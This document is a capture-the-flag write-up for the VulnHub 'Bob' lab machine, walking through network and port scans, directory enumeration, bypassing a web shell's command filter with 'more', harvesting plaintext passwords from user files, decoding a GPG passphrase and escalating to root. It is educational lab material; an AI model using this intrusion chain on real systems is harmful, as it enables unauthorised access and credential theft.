



# Bob (VulnHub)
https://www.vulnhub.com/entry/bob-101,226/

## Discovery

### Command used: arp-scan<br>
<br>

```
sudo arp-scan --interface=ens33 --localnet
Interface: ens33, type: EN10MB, MAC: 00:0c:29:01:a5:1c, IPv4: 172.16.250.97
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)

172.16.250.95	08:00:27:22:d6:b9	PCS Systemtechnik GmbH
```

## Port scan

### Command used: nmap
<br>

```
nmap -T4 -p- bob.vh
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-04 19:30 CDT
Stats: 0:00:37 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 54.56% done; ETC: 19:32 (0:00:31 remaining)
Stats: 0:03:28 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 99.84% done; ETC: 19:34 (0:00:00 remaining)
Nmap scan report for bob.vh (172.16.250.95)
Host is up (0.00049s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http
25468/tcp open  unknown
```
---

```
nmap -T4 -sV -p80,25468 bob.vh
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-04 19:35 CDT
Nmap scan report for bob.vh (172.16.250.95)
Host is up (0.0018s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
25468/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.35 seconds

```

## HTTP enumeration

### Command used: gobuster
<br>

```
gobuster dir --url http://bob.vh --wordlist /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bob.vh
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/04/04 21:20:51 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 285]
/.htaccess            (Status: 403) [Size: 290]
/.htpasswd            (Status: 403) [Size: 290]
/index.html           (Status: 200) [Size: 1425]
/robots.txt           (Status: 200) [Size: 111] 
/server-status        (Status: 403) [Size: 294] 
                                                
===============================================================
2022/04/04 21:20:54 Finished
===============================================================
```

Browsing robots.txt gives us some clues:<br><br>

```
User-agent: *
Disallow: /login.php
Disallow: /dev_shell.php
Disallow: /lat_memo.html
Disallow: /passwords.html
```

**"/lat_memo.html"**<br><br>



**HTML of /passwords.html**<br><br>

```
<!-- N.T.S Get Sticky Notes to Write Passwords in
-Bob
-->
<!--

-=====Passwords:==-<!
=======-
-->
<!--
-=====WEBSHELL=======-
-->
<!--p
-->
<!--
-====================-

 -->
<html>
<body>
  Really who made this file at least get a hash of your password to display,
  hackers can't do anything with a hash, this is probably why we had a security
  breach in the first place. Comeon
  people this is basic 101 security! I have moved the file off the server. Don't make me have to clean up the mess everytime
  someone does something as stupid as this. We will have a meeting about this and other
  stuff I found on the server. >:(
<br>
  -Bob
  </fieldset>
</body>
</html>
```

**/dev_shell.php**<br><br>



Some commands are blocked, such as *ls*, but alternative commands (like *more*) allow us to peek around:<br><br>



*Alternatively, you can use Burp Repeater for a cleaner output.*<br><br>

Now that we have a list of users, we can browse around for interesting files. In the "elliot" home folder, we find a file labled "theadminisdumb.txt" (this is important later):<br><br>

```
in_command=more /home/elliot/theadminisdumb.txt

::::::::::::::
/home/elliot/theadminisdumb.txt
::::::::::::::
The admin is dumb,
In fact everyone in the IT dept is pretty bad but I can’t blame all of them the newbies Sebastian and James are quite new to managing a server so I can forgive them for that password file they made on the server. But the admin now he’s quite something. Thinks he knows more than everyone else in the dept, he always yells at Sebastian and James now they do some dumb stuff but their new and this is just a high-school server who cares, the only people that would try and hack into this are script kiddies. His wallpaper policy also is redundant, why do we need custom wallpapers that doesn’t do anything. I have been suggesting time and time again to Bob ways we could improve the security since he “cares” about it so much but he just yells at me and says I don’t know what i’m doing. Sebastian has noticed and I gave him some tips on better securing his account, I can’t say the same for his friend James who doesn’t care and made his password: Qwerty. To be honest James isn’t the worst bob is his stupid web shell has issues and I keep telling him what he needs to patch but he doesn’t care about what I have to say. it’s only a matter of time before it’s broken into so because of this I have changed my password to

theadminisdumb

I hope bob is fired after the future second breach because of his incompetence. I almost want to fix it myself but at the same time it doesn’t affect me if they get breached, I get paid, he gets fired it’s a good time.
```

## SSH and privilege escalation
<br>

Apparently, we have our first set of credentials: **elliot : theadminisdumb**. Attempting to login through SSH was successful!<br><br>

```
ssh elliot@bob.vh -p 25468
The authenticity of host '[bob.vh]:25468 ([172.16.250.95]:25468)' can't be established.
ECDSA key fingerprint is SHA256:6836S02YTRSutf2d8Ay4p5JZKyLjfVMb0O0h4FdycQM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[bob.vh]:25468,[172.16.250.95]:25468' (ECDSA) to the list of known hosts.
  __  __ _ _ _                        _____                          
 |  \/  (_) | |                      / ____|                         
 | \  / |_| | |__  _   _ _ __ __ _  | (___   ___ _ ____   _____ _ __ 
 | |\/| | | | '_ \| | | | '__/ _` |  \___ \ / _ \ '__\ \ / / _ \ '__|
 | |  | | | | |_) | |_| | | | (_| |  ____) |  __/ |   \ V /  __/ |   
 |_|  |_|_|_|_.__/ \__,_|_|  \__, | |_____/ \___|_|    \_/ \___|_|   
                              __/ |                                  
                             |___/                                   


elliot@bob.vh's password: 
Linux Milburg-High 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3+deb9u1 (2017-12-23) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
```

Poking around user directories, we find something interesting in bob's directory - .old_passwordfile.html:<br><br>

```
more /home/bob/.old_passwordfile.html 
<html>
<p>
jc:Qwerty
seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
</p>
</html>
```

Bob's Documents folder seems to contain helpful information:<br><br>

```
elliot@Milburg-High:/home/bob/Documents$ ls
login.txt.gpg  Secret  staff.txt
elliot@Milburg-High:/home/bob/Documents$ more staff.txt
Seb:

Seems to like Elliot
Wants to do well at his job
Gave me a backdoored FTP to instal that apparently Elliot gave him

James:

Does nothing
Pretty Lazy
Doesn't give a shit about his job

Elliot:

Keeps to himself
Always needs to challenge everything I do
Keep an eye on him
Try and get him fired
```

Some deeper digging revealed an interesting bash script:<br><br>

```sh
elliot@Milburg-High:/home/bob/Documents/Secret/Keep_Out/Not_Porn/No_Lookie_In_Here$ more notes.sh 
#!/bin/bash
clear
echo "-= Notes =-"
echo "Harry Potter is my faviorite"
echo "Are you the real me?"
echo "Right, I'm ordering pizza this is going nowhere"
echo "People just don't get me"
echo "Ohhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh <sea santy here>"
echo "Cucumber"
echo "Rest now your eyes are sleepy"
echo "Are you gonna stop reading this yet?"
echo "Time to fix the server"
echo "Everyone is annoying"
echo "Sticky notes gotta buy em"
```

None of this made much sense at first. Eventually, we determine that the first letter of each line actually spells out the word HARPOCRATES. Harpocrates was the Greek god of silence, secrets, and confidentiality.

We go back to the GPG file - login.txt.gpg - found in the Documents folder, and try to decrypt it with HARPOCRATES:<br><br>

```
elliot@Milburg-High:/home/bob/Documents$ gpg --batch --passphrase HARPOCRATES -d login.txt.gpg 
gpg: AES encrypted data
gpg: encrypted with 1 passphrase
bob:b0bcat_
```

We switch users to "bob" using the decrypted password, then read **/flag.txt**:<br><br>

```
bob@Milburg-High:~/Documents$ sudo more /flag.txt 
sudo: unable to resolve host Milburg-High
CONGRATS ON GAINING ROOT

        .-.
       (   )
        |~|       _.--._
        |~|~:'--~'      |
        | | :   #root   |
        | | :     _.--._|
        |~|~`'--~'
        | |
        | |
        | |
        | |
        | |
        | |
        | |
        | |
        | |
   _____|_|_________ Thanks for playing ~c0rruptedb1t
```